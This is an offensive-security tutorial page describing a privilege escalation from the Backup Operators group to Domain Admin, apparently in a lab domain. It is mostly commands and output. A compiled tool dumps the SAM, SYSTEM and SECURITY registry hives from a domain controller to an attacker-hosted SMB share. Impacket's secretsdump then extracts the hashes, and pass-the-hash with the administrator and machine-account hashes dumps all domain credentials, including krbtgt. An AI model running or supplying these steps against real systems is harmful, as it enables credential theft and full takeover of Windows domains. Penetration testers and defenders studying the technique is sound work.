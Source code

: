 ```yaml
---
title : "BackupOperatorToDA"
# pre : ' '
description : "From Backup Operator To Domain Admin."
date : 2022-02-22T17:33:18+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## BackupOperatorToDA - From Backup Operator To Domain Admin

If you compromise an account member of the group Backup Operators you can become the Domain Admin without RDP or WinRM on the Domain Controller.

All credit from [filip_dragovic](https://twitter.com/filip_dragovic) with his inital [POC](https://raw.githubusercontent.com/Wh04m1001/Random/main/BackupOperators.cpp) ! I build this project because I wanted to have a more generic binary with parameters and also being able to export the SAM database on the remote share!

## Prerequisites

* Compile the `.sln` file from [Github Repo](https://github.com/mpgn/BackupOperatorToDA) (or trust mine below.)
* Impacket [smbserver.py]({{< ref "smbserver-py" >}})
* Impacket [secretsdump.py]({{< ref "secretsdump-py" >}})
* Account in target domain with the 'Backup Operator' membership

{{%attachments title="Related files" fa_icon_class="far fa-file" pattern=".*(exe)"/%}}

### Account checking

First it it important to be sure the user is member of the 'Backup Operator' group.

```plain
Microsoft Windows [Version 10.0.19043.1526]
(c) Microsoft Corporation. All rights reserved.

C:\Users\johndo>whoami
offsec\johndo

C:\Users\johndo>net user johndo /domain
The request will be processed at a domain controller for domain offsec.nl.

User name                    johndo
Full Name                    John Do
[...]

Local Group Memberships      *Backup Operators
Global Group memberships     *Domain Users
The command completed successfully.
```

### Set-up smbserver.py

It is recommended to check if the share is reachable from a Windows workstation without additional credentials.

```plain
$ smbserver.py -smb2support -ip 10.20.30.16 share .
Impacket v0.9.25.dev1+20220218.140931.6042675a - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.20.30.12,50555)
[*] AUTHENTICATE_MESSAGE (OFFSEC\johndo,WIN10)
[*] User WIN10\johndo authenticated successfully
[...]
```

## Exploiting the vulnerable configuration

### Executable running and dumping SAM/SYSTEM/SECURITY

```plain
PS C:\> .\BackupOperatorToDA_release.exe -t \\srv2019.offsec.nl -u johndo -p Welkom1234 -d offsec.nl -o \\10.20.30.16\share\
Making user token
Dumping SAM hive to \\10.20.30.16\share\SAM
Dumping SYSTEM hive to \\10.20.30.16\share\SYSTEM
Dumping SECURITY hive to \\10.20.30.16\share\SECURITY
```

### Secretsdump SAM/SYSTEM/SECURITY

Two hashes can be used from here, the **'$MACHINE.ACC'** and/or **'administrator'** hash.

```plain
$ secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL
Impacket v0.9.25.dev1+20220218.140931.6042675a - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x9319e551be8d75919967f0065e0132b9
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:43bcb[...]
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:e1842947e54ab3d9a8758531e8fc6049
[...]
```

### Dump everything

### Using administrator hash

```plain
$ secretsdump.py offsec.nl/administrator@srv2019.offsec.nl -hashes :97f2592347d8fbe42be381726ff9ea83 -just-dc
Impacket v0.9.25.dev1+20220218.140931.6042675a - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a0b5d64d34935c8a4780b715cfb444c4:::
offsec.nl\MARSHALL_FRANKS:1103:aad3b435b51404eeaad3b435b51404ee:dacd6680af15849bb89a4f0da30e99b0:::
offsec.nl\JAMES_VAUGHAN:1104:aad3b435b51404eeaad3b435b51404ee:75ed74673dd7bf358d48207fdd0d42e0:::
offsec.nl\WARD_CONTRERAS:1105:aad3b435b51404eeaad3b435b51404ee:e0e7955fe13737060bd2d0c5049a78d2:::
offsec.nl\EDDY_MILES:1106:aad3b435b51404eeaad3b435b51404ee:f41a8d181561d36de8ebfc96a0caac0f:::
offsec.nl\ANDREW_VASQUEZ:1107:aad3b435b51404eeaad3b435b51404ee:bc13660676fce9b4aab8fac6ed8adcd5:::
offsec.nl\ULYSSES_COTE:1108:aad3b435b51404eeaad3b435b51404ee:c7f0cab839fde136be09348e15febaba:::
[...]
```

### Using machine account hash

```plain
$ secretsdump.py offsec.nl/'srv2019$'@srv2019.offsec.nl -hashes :e1842947e54ab3d9a8758531e8fc6049 -just-dc
Impacket v0.9.25.dev1+20220218.140931.6042675a - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a0b5d64d34935c8a4780b715cfb444c4:::
offsec.nl\MARSHALL_FRANKS:1103:aad3b435b51404eeaad3b435b51404ee:dacd6680af15849bb89a4f0da30e99b0:::
offsec.nl\JAMES_VAUGHAN:1104:aad3b435b51404eeaad3b435b51404ee:75ed74673dd7bf358d48207fdd0d42e0:::
offsec.nl\WARD_CONTRERAS:1105:aad3b435b51404eeaad3b435b51404ee:e0e7955fe13737060bd2d0c5049a78d2:::
offsec.nl\EDDY_MILES:1106:aad3b435b51404eeaad3b435b51404ee:f41a8d181561d36de8ebfc96a0caac0f:::
offsec.nl\ANDREW_VASQUEZ:1107:aad3b435b51404eeaad3b435b51404ee:bc13660676fce9b4aab8fac6ed8adcd5:::
offsec.nl\ULYSSES_COTE:1108:aad3b435b51404eeaad3b435b51404ee:c7f0cab839fde136be09348e15febaba:::
[...]
```

## URL List

* [Github.com - From Backup Operator To Domain Admin](https://github.com/mpgn/BackupOperatorToDA)
